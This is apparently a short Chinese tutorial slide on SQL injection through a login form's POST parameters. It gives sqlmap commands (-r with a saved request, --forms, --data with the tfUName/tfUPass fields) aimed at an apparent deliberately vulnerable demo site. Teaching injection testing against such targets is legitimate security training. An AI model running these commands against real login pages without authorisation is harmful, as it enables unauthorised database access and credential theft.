

# POST登录框注入
注入点：http://testasp.vulnweb.com/Login.asp
几种注入方式：./sqlmap.py -r search-test.txt -p tfUPass

 sqlmap -u http://testasp.vulnweb.com/Login.asp --forms
 sqlmap -u http://testasp.vulnweb.com/Login.asp --data "tfUName=1&tfUPass=1"